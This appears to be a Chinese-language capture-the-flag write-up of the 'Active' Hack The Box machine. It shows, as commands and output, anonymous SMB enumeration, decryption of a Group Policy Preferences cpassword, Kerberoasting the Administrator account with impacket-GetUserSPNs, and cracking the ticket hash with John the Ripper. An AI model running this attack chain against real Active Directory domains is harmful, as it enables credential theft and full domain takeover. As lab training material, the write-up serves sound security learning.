



## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Active  
❯ nmap active.htb -sV  -Pn -T4         
                                                                                            
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos 
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49167/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

## SMB File Leak

匿名登陆**SMB**，发现可以读取的**Replication**

```
[root@kali] /home/kali/Active  
❯ smbclient -L //active.htb/                                                                                                       

Password for [WORKGROUP\root]:
Anonymous login successful

        Sharename       Type      Comment
        --------- ---- -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Replication     Disk      
        SYSVOL          Disk      Logon server share 
        Users           Disk      
```



```
[root@kali] /home/kali/Active  
❯ cat Groups.xml 
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

## GPP-decrypt

经过搜索查找到了**AES**密钥是公开的：[\[MS-GPPREF\]: Password Encryption | Microsoft Learn](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be)

使用下面的脚本进行解密得到密码

\[github author="t0thkr1s" project="gpp-decrypt"\]\[/github\]

```
[root@kali] /home/kali/Active/gpp-decrypt (master) 
❯ python gpp-decrypt.py -c edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
/home/kali/Active/gpp-decrypt/gpp-decrypt.py:10: SyntaxWarning: invalid escape sequence '\ '
  banner = '''

                               __                                __ 
  ___ _   ___    ___  ____ ___/ / ___  ____  ____  __ __   ___  / /_
 / _ `/  / _ \  / _ \/___// _  / / -_)/ __/ / __/ / // /  / _ \/ __/
 \_, /  / .__/ / .__/     \_,_/  \__/ \__/ /_/    \_, /  / .__/\__/ 
/___/  /_/    /_/                                /___/  /_/         

[ * ] Password: GPPstillStandingStrong2k18
```

查看这个用户的**SMB**权限，发现可以读取**Users**

```
[root@kali] /home/kali/Active  
❯ smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.XX.XX

        Disk              Permissions     Comment
        ---- ----------- -------
        ADMIN$            NO ACCESS       Remote Admin
        C$                NO ACCESS       Default share
        IPC$              NO ACCESS       Remote IPC
        NETLOGON          READ ONLY       Logon server share 
        Replication       READ ONLY
        SYSVOL            READ ONLY       Logon server share 
        Users             READ ONLY
```

拿到**User.txt**

```
[root@kali] /home/kali/Active  
❯ smbclient  //active.htb/Users -U SVC_TGS 
Password for [WORKGROUP\SVC_TGS]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 22:39:20 2018
  ..                                 DR        0  Sat Jul 21 22:39:20 2018
  Administrator                       D        0  Mon Jul 16 18:14:21 2018
  All Users                       DHSrn        0  Tue Jul 14 13:06:44 2009
  Default                           DHR        0  Tue Jul 14 14:38:21 2009
  Default User                    DHSrn        0  Tue Jul 14 13:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 12:57:55 2009
  Public                             DR        0  Tue Jul 14 12:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 23:16:32 2018

                5217023 blocks of size 4096. 284022 blocks available
smb: \> cd SVC_TGS
smb: \SVC_TGS\> cd desktop
smb: \SVC_TGS\desktop\> get user.txt
getting file \SVC_TGS\desktop\user.txt of size 34 as user.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \SVC_TGS\desktop\> 
```

## Privilege Escalation

在**Nmap**中发现开启了**Kerberos**服务

`GetUserSPNs` 脚本能找出和普通用户账户关联的 **SPN**，并以 **JtR (John the Ripper)** 和 **Hashcat** 兼容的格式输出。

简单的说，当前用户通过 **GetUserSPNs** 查询服务和用户之间的关联，尤其是 **admin** 用户所管理的服务。如果**admin**用户的配置存在漏洞（例如，禁用了预身份验证），那么工具就能够抓取到加密的密码哈希，进一步可以进行密码破解。

```
[root@kali] /home/kali/Active  
❯ impacket-GetUserSPNs -request active.htb/SVC_TGS:GPPstillStandingStrong2k18
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

...........

[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$710f30f9b647e40f3d5571b65223adf7$f40b9733880a7ef27fd7e80a1cb450dca57036d376c4cdccec590dd7a96b7445360c99f61872a50f1387be8be185759cb6406a4f8c2a99f6c68e695c7458242e64aa9295f9ff0481da1229d7f96d2745cdcd5a5bb0e3bc69b5de97xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

使用**John the Ripper**进行破解

```
[root@kali] /home/kali/Active  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt                                                                        ⏎
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
TicXXXXXXXXXXXXXXXX (?)     
```

然后使用**impacket-smbexec**进行命令执行



在这个工具下不能使用**cd**命令，可以直接读取**root.txt**



## Summary

`User`：**SMB**文件泄露，然后进行GPP密码破解，由于**5985**端口（**winrm**）并没有打开，在SMB里拿到**User.txt**.

`Root`：通过**Kerberoast**攻击，获取到**Administrator**的凭证，破解后通过**smbexec**进行命令执行

**Kerberoasting 攻击步骤**：

- **枚举 SPN**：首先列举目标域中的所有用户和服务账户，找到与服务关联的 **SPN**（通常可以通过 **`GetUserSPNs`** 工具来枚举）。

- **请求服务票证**：攻击者向 **KDC** 发送请求，要求获取与服务账户相关的 **服务票证（TGS）**。

- **提取服务票证**：**KDC** 会返回加密的 **服务票证**，这个票证是用服务账户的 **密码哈希** 加密的。

- **离线破解密码**：攻击者将提取的票证（通常是加密的 **RC4** 哈希）带回并通过离线破解工具（如 `**John the Ripper**` 或 `**Hashcat**`）进行暴力破解，尝试恢复出服务账户的明文密码。

值得注意的是**服务票据**会使用**服务账户的哈希**进行加密，因此任何通过身份认证的用户都能从 **TGS** 处请求 **ST** 服务票据。由于服务票证是用链接到请求 **SPN** 的帐户的哈希加密的，所以尝试破解密文。
